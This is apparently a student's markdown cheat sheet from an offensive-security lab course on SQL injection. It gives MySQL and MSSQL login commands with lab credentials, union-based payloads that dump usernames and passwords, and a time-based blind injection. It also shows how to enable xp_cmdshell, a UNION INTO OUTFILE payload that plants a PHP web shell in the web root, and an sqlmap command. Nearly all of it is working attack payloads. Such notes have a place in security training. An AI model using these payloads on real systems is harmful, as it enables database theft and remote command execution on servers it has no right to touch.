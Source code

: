 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds

# SQL Shellcode excution
## Manual shell
1. mssql shell
    ``` 
        EXECUTE sp_configure 'show advanced options', 1;
        EXECUTE sp_configure 'xp_cmdshell', 1;
    ```

2. mysql shell

    care about column number

    ```
    ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
    ```


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```